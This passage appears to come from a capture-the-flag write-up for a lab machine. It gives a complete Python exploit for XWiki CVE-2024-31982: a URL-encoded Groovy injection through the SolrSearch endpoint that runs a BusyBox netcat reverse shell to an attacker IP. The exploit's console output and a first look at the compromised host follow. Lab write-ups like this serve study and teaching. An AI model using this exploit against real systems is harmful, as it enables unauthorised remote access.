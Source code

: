 ```python
    """Send reverse shell payload using Groovy RCE with BusyBox."""
    print(f"[+] Sending direct reverse shell via busybox to {lhost}:{lport} ...")
    
    # BusyBox reverse shell command
    cmd = f"busybox nc {lhost} {lport} -e /bin/sh"
    encoded_cmd = cmd.replace('"','\\"')
    
    # Construct malicious URL with Groovy payload
    payload_url = (
        f"{target_url}/bin/get/Main/SolrSearch?media=rss&text="
        f"%7D%7D%7D%7B%7Basync%20async=false%7D%7D"
        f"%7B%7Bgroovy%7D%7D\"{encoded_cmd}\".execute()%7B%7B/groovy%7D%7D"
        f"%7B%7B/async%7D%7D"
    )
    
    try:
        requests.get(payload_url, timeout=5)
    except requests.exceptions.RequestException:
        pass

if __name__ == "__main__":
    print("=" * 80)
    print("XWiki CVE-2024-31982 - Direct Reverse Shell via BusyBox")
    print("=" * 80)
    
    target = "editor.htb:8080/xwiki"
    lhost = "10.10.16.31"  # Change this to attacker ip
    lport = "3333"
    
    target_url = detect_protocol(target)
    send_direct_revshell(target_url, lhost, lport)
    print("[✔] Payload sent. Check your listener.")
```

```bash
└─$ python3 exploit.py       
================================================================================
XWiki CVE-2024-31982 - Direct Reverse Shell via BusyBox
================================================================================
[!] HTTPS not available. Falling back to HTTP.
[✔] HTTP available: http://editor.htb:8080/xwiki
[+] Sending direct reverse shell via busybox to 10.10.16.31:3333 ...
[✔] Payload sent. Check your listener.
```

After getting inside, we discover there is a nother user `oliver`.

```bash
xwiki@editor:/home$ ls -la
total 12
drwxr-xr-x  3 root   root   4096 Jul  8 08:34 .
drwxr-xr-x 18 root   root   4096 Jul 29 11:55 ..
drwxr-x---  3 oliver oliver 4096 Jul  8 08:34 oliver
xwiki@editor:/home$ cd oliver
```
